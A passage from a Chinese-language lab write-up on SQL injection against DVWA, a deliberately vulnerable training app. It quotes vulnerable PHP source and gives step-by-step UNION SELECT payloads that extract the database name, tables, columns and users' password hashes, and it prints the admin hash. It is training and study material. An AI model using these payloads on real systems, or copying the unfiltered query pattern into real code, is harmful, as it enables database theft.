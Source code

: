 ```php
            } 
            break; 
    }  
} 

?> 
```

观察源码,源码对输入的 `id `完全信任，没有做任何过滤。观察到接收的 `id `的左右内容将会被直接放入一个 SQL 查询语句，使用 `mysqli_query `函数用该语句对某个数据库进行查询。`mysqli_fetch_assoc()`函数从结果集中取得一行作为关联数组，然后将查询到的数据输出。

攻击：判断注入类型，确定服务器将id的值认为是字符型还是数字，这里使用`1’ or ‘1’ = ‘1`进行判断。其中逻辑如下，若传回的为字符型（单引号闭合）`'1' or '1' = '1'`，则表达式为真；若传回为数字型，表达式为`1' or '1' = '1`，则可能报错（或只是返回同一结果）；若其为字符型（双引号闭合）`"1' or '1' = '1"`，则表达式布尔值仍然为真。这里注入的字段为数字型

之后，查找字段数，使用SQL语言的ORDER语句进行测试：`' or 1 = 1 order by 【字段数】 #'`

首先必然会有一个字段，之后测试2字段和3字段:

+ 2字段进行排序：

![image-20240517145449028](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171454150.png)

+ 3字段进行排序：

![image-20240517145338063](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171453215.png)

+ 查询数据库名称：`1' UNION SELECT 1,database() from information_schema.schemata#`

![image-20240517151950078](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171519159.png)

+ 获取dvwa数据库中的表名：`1' UNION SELECT 1,table_name from information_schema.tables where table_schema='dvwa'#`

![image-20240517152314474](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171523604.png)

+ 获取user表下列名：`1' UNION SELECT 1,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#`

![image-20240517153910804](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171539952.png)

+ 获取user表下各用户密码：`1' UNION SELECT 1,group_concat(user,0x3a,password) from users#`

![image-20240517153945228](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171539340.png)

`admin`密码：`5f4dcc3b5aa765d61d8327deb882cf99`

![image-20240517154317322](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171543423.png)



##### 任务四：数据库（盲注）

###### 1. Low Level

```php
<?php 

if( isset( $_GET[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_GET[ 'id' ]; 
    $exists = false; 

    switch ($_DVWA['SQLI_DB']) { 
        case MYSQL: 
            // Check database 
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
            try { 
```